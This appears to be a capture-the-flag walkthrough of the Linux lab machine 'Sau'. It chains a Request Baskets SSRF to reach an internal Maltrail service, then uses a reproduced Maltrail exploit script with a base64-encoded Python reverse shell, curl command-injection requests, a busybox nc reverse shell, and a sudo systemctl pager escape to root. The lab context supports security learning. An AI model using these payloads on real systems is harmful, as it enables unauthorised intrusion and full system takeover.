










- Machine Name: Sau
- OS type: Linux
- Difficulty: Easy

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.94SVN scan initiated Sat Apr 12 03:33:53 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up, received echo-reply ttl 63 (0.38s latency).
Scanned at 2025-04-12 03:33:55 EDT for 252s
Not shown: 65530 closed tcp ports (reset), 3 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDdY38bkvujLwIK0QnFT+VOKT9zjKiPbyHpE+cVhus9r/6I/uqPzLylknIEjMYOVbFbVd8rTGzbmXKJBdRK61WioiPlKjbqvhO/YTnlkIRXm4jxQgs+xB0l9WkQ0CdHoo/Xe3v7TBije+lqjQ2tvhUY1LH8qBmPIywCbUvyvAGvK92wQpk6CIuHnz6IIIvuZdSklB02JzQGlJgeV54kWySeUKa9RoyapbIqruBqB13esE2/5VWyav0Oq5POjQWOWeiXA6yhIlJjl7NzTp/SFNGHVhkUMSVdA7rQJf10XCafS84IMv55DPSZxwVzt8TLsh2ULTpX8FELRVESVBMxV5rMWLplIA5ScIEnEMUR9HImFVH1dzK+E8W20zZp+toLBO1Nz4/Q/9yLhJ4Et+jcjTdI1LMVeo3VZw3Tp7KHTPsIRnr8ml+3O86e0PK+qsFASDNgb3yU61FEDfA0GwPDa5QxLdknId0bsJeHdbmVUW3zax8EvR+pIraJfuibIEQxZyM=
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEFMztyG0X2EUodqQ3reKn1PJNniZ4nfvqlM7XLxvF1OIzOphb7VEz4SCG6nXXNACQafGd6dIM/1Z8tp662Stbk=
|   256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICYYQRfQHc6ZlP/emxzvwNILdPPElXTjMCOGH6iejfmi
55555/tcp open  unknown syn-ack ttl 63
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sat, 12 Apr 2025 07:36:18 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sat, 12 Apr 2025 07:35:41 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sat, 12 Apr 2025 07:35:43 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94SVN%I=7%D=4/12%Time=67FA17F4%P=x86_64-pc-linux-gnu%
SF:r(GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm
SF:l;\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sat,\x2012\x20Apr\
SF:x202025\x2007:35:41\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\
SF:"/web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection
SF::\x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x
SF:20200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sat,\x2012\x20Apr\
SF:x202025\x2007:35:43\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ
SF:est,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla
SF:in;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque
SF:st")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r
SF:\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r
SF:\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6
SF:7,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x
SF:20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%
SF:r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\
SF:r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opti
SF:ons:\x20nosniff\r\nDate:\x20Sat,\x2012\x20Apr\x202025\x2007:36:18\x20GM
SF:T\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20
SF:name\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}
SF:\$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty
SF:pe:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\
SF:x20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Requ
SF:est\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20
SF:close\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 12 03:38:07 2025 -- 1 IP address (1 host up) scanned in 254.76 seconds

```

## Enumeration

### Port 55555/HTTP

port 55555 is running webserver let’s browse the website using browser



it’s running some application “Request Baskets” we found it’s github repo link and it disclosed the version of the application → https://github.com/darklynx/request-baskets v. 1.2.1 

let’s give it a quick google search to see if anything interesting for us, and we found **`The SSRF vulnerability in CVE-2023-27163 impacts request-baskets software up to version 1.2.1` [**https://nvd.nist.gov/vuln/detail/CVE-2023-27163**]** great!, further research reveals that the /api/baskets/{name} api was vulnerable 

so the process is :

- craft malicious API request to /api/baskets/{randomName}
- send request to server and then the created basket will work as proxy for target url

following is the API request that we’ll send to server

```bash
POST /api/baskets/sd3434 HTTP/1.1
Host: 10.10.11.224:55555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: null
X-Requested-With: XMLHttpRequest
Origin: http://10.10.11.224:55555
Connection: keep-alive
Referer: http://10.10.11.224:55555/web
Content-Length: 130

**{
"forward_url": "http://127.0.0.1",
"proxy_response": true,
"insecure_tls": false,
"expand_path": true,
"capacity": 250
}**
```

highlighted with red is the actual payload now when we sent this request to server it will create the basket with the name of sd3434 and when we access the basket via url - [http://10.10.11.224:55555/2w6rna1](http://10.10.11.224:55555/web/2w6rna1) so we can access service running on [http://127.0.0.1](http://127.0.0.1) we don’t have any clue that if any service is running on port 80 or not we are just guessing this 

let’s exploit this



let’s access the created basket from [http://10.10.11.224](http://10.10.11.224)/sd3434



great! the port 80 is running Maltrail v. 0.53 let’s search for any exploit for this server and version

https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py RCE, Unauthenticated RCE!! this is what we need 

### Exploit.py

```bash
'''
  ██████  ██▓███   ▒█████   ▒█████   ██ ▄█▀ ██▓▓█████  ██▀███  
▒██    ▒ ▓██░  ██▒▒██▒  ██▒▒██▒  ██▒ ██▄█▒ ▓██▒▓█   ▀ ▓██ ▒ ██▒
░ ▓██▄   ▓██░ ██▓▒▒██░  ██▒▒██░  ██▒▓███▄░ ▒██▒▒███   ▓██ ░▄█ ▒
  ▒   ██▒▒██▄█▓▒ ▒▒██   ██░▒██   ██░▓██ █▄ ░██░▒▓█  ▄ ▒██▀▀█▄  
▒██████▒▒▒██▒ ░  ░░ ████▓▒░░ ████▓▒░▒██▒ █▄░██░░▒████▒░██▓ ▒██▒
▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░░ ▒░▒░▒░ ░ ▒░▒░▒░ ▒ ▒▒ ▓▒░▓  ░░ ▒░ ░░ ▒▓ ░▒▓░
░ ░▒  ░ ░░▒ ░       ░ ▒ ▒░   ░ ▒ ▒░ ░ ░▒ ▒░ ▒ ░ ░ ░  ░  ░▒ ░ ▒░
░  ░  ░  ░░       ░ ░ ░ ▒  ░ ░ ░ ▒  ░ ░░ ░  ▒ ░   ░     ░░   ░ 
      ░               ░ ░      ░ ░  ░  ░    ░     ░  ░   ░     
'''

import sys;
import os;
import base64;

def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```

inspecting [exploit.py](http://exploit.py) we found that the username parameter is vulnerable we need to send base64 encoded payload then pipe it to base64 -d then pipe it’s output to sh command to execute the command let’s run the simple ping command to check if this is working or not

first let’s encode the ping command into base64 using,

```bash
echo ping -c 1 10.10.14.17 | base64
```



start tcpdump to capture ICMP traffic in our machine

```bash
sudo tcpdump -i tun0 icmp -v
```

now let’s run the curl command to get ping command executed

```bash
curl http://10.10.11.224:55555/sd3434/login --data 'username=;`echo+"cGluZyAtYyAxIDEwLjEwLjE0LjE3Cg=="+|+base64+-d+|+sh`'
```



we got the output, we can say that the server is executing the commands it’s time for shell i’ll use busybox nc command to get shell

```bash
echo busybox nc 10.10.14.17 443 -e /bin/bash | base64
```



send payload to target using curl, start netcat listener on port 443 using `rlwrap -r nc -nvlp 443` 

```bash
curl http://10.10.11.224:55555/sd3434/login --data 'username=;`echo%20"YnVzeWJveCBuYyAxMC4xMC4xNC4xNyA0NDMgLWUgL2Jpbi9iYXNoCg=="%20|%20base64%20-d%20|%20sh`'
```



let’s upgrade to TTY shell using python

```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
```



## Getting Shiny #️⃣ : Root

let’s check if we have any permissions to run any command as root using `sudo -l`



we do~!, we can run `sudo systemctl status trail.service` when we run status command it will open default pagger like `less` we can execute `!/bin/bash` to get root shell

